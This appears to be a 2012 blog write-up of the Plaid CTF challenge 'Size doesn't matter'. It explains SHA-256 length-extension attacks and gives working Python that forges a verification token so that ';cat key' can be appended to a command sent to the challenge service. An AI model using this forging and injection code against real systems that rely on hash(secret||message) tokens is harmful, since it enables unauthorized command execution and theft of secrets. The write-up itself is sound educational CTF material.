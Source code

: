 ```yaml
---
layout: post
title: Plaid CTF 2012 - "Size doesn't matter"
tags: <++>
year: 2012
month: 04
day: 30
published: true
summary: Solution for the PCTF 2012 puzzle "Size doesn't matter"
---
```


What an awesome CTF. The "Size Doesn't Matter" challenge read:

> Size Doesn't Matter [250] Password Guessing
>
>We found a pair of robot command execution services running at 23.20.239.9 ports 8888 and
>8889. Can you break into it?

The first service, when poked, asked for a command and answered with the following:

> Your verification string is valid for your command for 10 seconds: 60a33bc5e3be71846a60b2103e46cce3045e8380e04f9cd69e29c1c575284930
>
>secret: XXXXXXXX
>
>timecode: 12:32:3
>
>command: ls

The second service requested something of the form (after an update of the challenge):

> Please send command1;command2;command3::verification

One shall be enough. :-)

After playing a bit with it and seeing that the command input was stripped and filtered to
only allow letters, we started fiddling with the token. Looks like SHA-256 in length, so
assuming it is, it could be subject to a length extension attack.

Length extension attacks are basically a property of Merkle–Damgård construction. Think of
it this way: a SHA-2 digest is essentially the internal function state after consuming the
message, its padding (if any) plus the length in bits. If you wanted, you could grab it,
initialize a SHA-2 implementation with it and the length of the processed message thus
far, and continue hashing additional blocks. The end result is the digest of:

    [ Initial message | 0x80 | Padding | Length | Concatenated message ]

Now as the commands were fed to bash by a Python script, concatenating a semicolon plus a
`cat key` will presumably get us where we want. The good folks at
[vnsecurity](http://www.vnsecurity.net) had already provided an implementation I modified.
So off we go,

```python
#!/usr/bin/env python
import sha256 # PyPy's sha256 module works.
import struct

class shaext:
    """
    Performs SHA-256 length extension.
    """
    def __init__(self, origtext, keylen, origsig):
        self.origtext = origtext
        self.keylen = keylen
        self.origsig = origsig
        self.addtext = ''
        self.init()

    def init(self):
        count = (self.keylen + len(self.origtext)) * 8
        index = (count &gt;&gt; 3) &amp; 0x3FL
        padLen = 120 - index
        if index &lt; 56:
            padLen = 56 - index
        padding = '\x80' + '\x00' * 63

        self.input = self.origtext + padding[:padLen] + struct.pack('&gt;Q', count)
        count = (self.keylen + len(self.input)) * 8
        self.impl = sha256.sha256()
        self.impl._sha['count_lo'] = count
        self.impl._sha['count_hi'] = 0

        _digest = self.origsig.decode("hex")
        self.impl._sha['digest'] = [x for x in struct.unpack("&gt;IIIIIIII", _digest)]

    def add(self, addtext):
        self.addtext = self.addtext + addtext
        self.impl.update(addtext)

    def final(self):
        new_sig = self.impl.hexdigest()
        new_msg = self.input + self.addtext
        return (new_msg, new_sig)
```

and then we fiddle with the two services, like so:

```python
import socket, time
import shaext

IP='...'
PORT1=8888
PORT2=8889
COMMAND=''

while True:
    sock_verifier = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock_verifier.connect((IP,PORT1))
    COMMAND = raw_input('cmd? ')
    sock_verifier.send((COMMAND + '\x0a'))
    verification = sock_verifier.recv(256)
    sock_verifier.close()

    print(verification)
    token_begin = verification.find('seconds: ') + len('seconds: ')
    token_end   = verification.find('\x0a');
    token       = verification[token_begin : token_end]
    timecode    = verification[verification.find('timecode: ') + 10 : verification.find('timecode: ') + 17]

    extension = shaext.shaext(COMMAND, 8 + len(timecode), token)
    extension.add(';cat key')
    (new_msg, new_token) = extension.final()
    print('[+] New command: ' + new_msg)
    print('[+] New token  : ' + new_token)

    command_sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    command_sock.connect((IP, PORT2))
    buf = new_msg + '::' + new_token + '\x0a'
    command_sock.send(buf)
    data_rcv2 = command_sock.recv(4096)
    print(data_rcv2)
    command_sock.close()
```

Which nets us the key:

> my_hash_is_longer_than_your_hash
